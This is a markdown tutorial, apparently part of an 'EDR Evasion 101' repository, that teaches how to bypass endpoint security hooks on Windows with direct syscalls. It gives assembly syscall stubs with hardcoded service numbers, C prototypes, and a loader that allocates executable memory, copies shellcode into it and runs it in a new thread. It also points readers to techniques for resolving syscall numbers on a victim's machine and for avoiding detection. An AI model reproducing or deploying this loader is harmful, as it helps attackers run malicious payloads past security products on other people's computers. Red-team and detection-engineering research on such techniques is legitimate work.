



This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:



## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.



which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.



I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).

## [Code Repository](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/direct_syscall)

